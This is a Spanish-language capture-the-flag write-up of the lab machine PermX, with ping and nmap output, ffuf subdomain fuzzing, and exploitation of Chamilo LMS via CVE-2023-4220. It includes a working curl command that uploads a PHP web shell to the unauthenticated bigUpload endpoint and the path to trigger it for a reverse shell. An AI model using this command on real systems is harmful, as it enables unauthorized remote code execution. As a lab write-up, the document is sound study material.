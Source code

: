 #Easy #fuzzing #role #tecnicas 

### Ping

```python
ping -c 1 10.10.11.23
PING 10.10.11.23 (10.10.11.23) 56(84) bytes of data.
64 bytes from 10.10.11.23: icmp_seq=1 ttl=63 time=156 ms

--- 10.10.11.23 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 155.524/155.524/155.524/0.000 ms
```

### TTL = 63 Linux

### nmap

```python
# Nmap 7.94SVN scan initiated Fri Jul 12 13:52:19 2024 as: nmap -p- -open -sCV --min-rate 5000 -n -Pn -oN Scan 10.10.11.23
Nmap scan report for 10.10.11.23
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 12 13:52:48 2024 -- 1 IP address (1 host up) scanned in 28.04 seconds
```

### Enumeración del puerto 80 (http)
no parece haber mucho en la web asi que vamos a seguir enumerando
![[Pasted image 20240712135330.png]]

### Fuzzing con ffuf
encontramos un subdominio `lms` que me llama la atención
![[Pasted image 20240712135420.png]]

`Chamilo lms`
hemos conseguido un LMS llamado chamilo así que intentaremos buscar alguna vulnerabilidad 
![[Pasted image 20240712140800.png]]

### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad     | Tipo | Nivel | Link                                                                               |
| -------------- | ------------------------------- | ---- | ----- | ---------------------------------------------------------------------------------- |
| CVE-2023-4220  | Unauthenticated Big Upload File | RCE  | 8.1   | [RCE](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git) |
|                |                                 |      |       |                                                                                    |
|                |                                 |      |       |                                                                                    |

```python

curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'

```

de esta forma vamos a cargar un archivo malicioso en este caso llamado shell.php usando el parámetro `curl -F`
![[Pasted image 20240712140505.png]]

### Shell
estaremos a la escucha en el puerto que hemos especificado y navegamos hasta la ruta donde se ha subido el archivo

http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php

![[Pasted image 20240712141735.png]]